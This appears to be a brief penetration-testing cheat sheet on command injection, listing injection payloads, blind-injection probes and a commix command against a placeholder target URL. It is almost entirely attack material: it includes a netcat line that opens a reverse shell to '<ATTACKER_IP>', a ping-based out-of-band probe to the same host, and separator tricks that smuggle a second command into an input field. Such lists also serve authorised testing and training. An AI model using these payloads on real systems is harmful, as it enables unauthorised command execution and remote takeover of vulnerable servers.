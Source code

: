 # Command Injection

## Manual Payloads


; id
&& whoami
| nc <ATTACKER_IP> 4444 -e /bin/bash


## Blind Injection

- Time delay: `; sleep 5`
- Out-of-band: `; ping -c 4 <ATTACKER_IP>`

## Automation

commix --url="http://<TARGET_IP>/ping.php?ip=127.0.0.1" --batch

